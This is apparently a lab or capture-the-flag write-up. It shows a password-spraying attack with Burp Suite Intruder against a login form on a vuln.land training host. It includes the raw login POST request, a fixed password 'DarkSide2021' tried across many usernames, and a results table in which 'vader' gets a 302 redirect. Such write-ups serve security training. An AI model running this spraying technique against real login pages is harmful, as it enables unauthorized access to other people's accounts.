 Here we see the post that get's used when you use the login mask. We can now use burp to send multiple posts with username combinations. We can use the intruder function for this.

```
POST /login HTTP/1.1
Host: 43a567de-fc56-4857-a1f3-af4c045e74df.i.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: https://43a567de-fc56-4857-a1f3-af4c045e74df.i.vuln.land
Referer: https://43a567de-fc56-4857-a1f3-af4c045e74df.i.vuln.land/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=test&password=DarkSide2021
```

We changed the Password to our known password to _DarkSide2021_ and added the usernames to the payload as fields. After that we got the following result:

|     |               |              |     |     |       |       |      |     |
| --- | ------------- | ------------ | --- | --- | ----- | ----- | ---- | --- |
| 43  | vader         | DarkSide2021 | 302 | 36  | false | false | 337  |     |
| 26  | jabba         | DarkSide2021 | 200 | 99  | false | false | 2750 |     |
| 39  | tarkin        | DarkSide2021 | 200 | 88  | false | false | 2750 |     |
| 32  | owen          | DarkSide2021 | 200 | 211 | false | false | 2752 |     |
| 41  | threepio      | DarkSide2021 | 200 | 206 | false | false | 2752 |     |
| 14  | deak          | DarkSide2021 | 200 | 204 | false | false | 2752 |     |
| 33  | porkins       | DarkSide2021 | 200 | 201 | false | false | 2752 |     |
| 19  | gantry        | DarkSide2021 | 200 | 193 | false | false | 2752 |     |
| 11  | commander     | DarkSide2021 | 200 | 183 | false | false | 2752 |     |
| 8   | camie         | DarkSide2021 | 200 | 173 | false | false | 2752 |     |
| 29  | massassi      | DarkSide2021 | 200 | 173 | false | false | 2752 |     |
| 31  | officer       | DarkSide2021 | 200 | 171 | false | false | 2752 |     |
| 38  | tagge         | DarkSide2021 | 200 | 161 | false | false | 2752 |     |
| 10  | chief         | DarkSide2021 | 200 | 136 | false | false | 2752 |     |
| 18  | fixer         | DarkSide2021 | 200 | 129 | false | false | 2752 |     |
| 5   | ben           | DarkSide2021 | 200 | 128 | false | false | 2752 |     |
| 20  | gold          | DarkSide2021 | 200 | 128 | false | false | 2752 |     |
| 17  | first         | DarkSide2021 | 200 | 120 | false | false | 2752 |     |
| 12  | control       | DarkSide2021 | 200 | 109 | false | false | 2752 |     |
| 30  | motti         | DarkSide2021 | 200 | 109 | false | false | 2752 |     |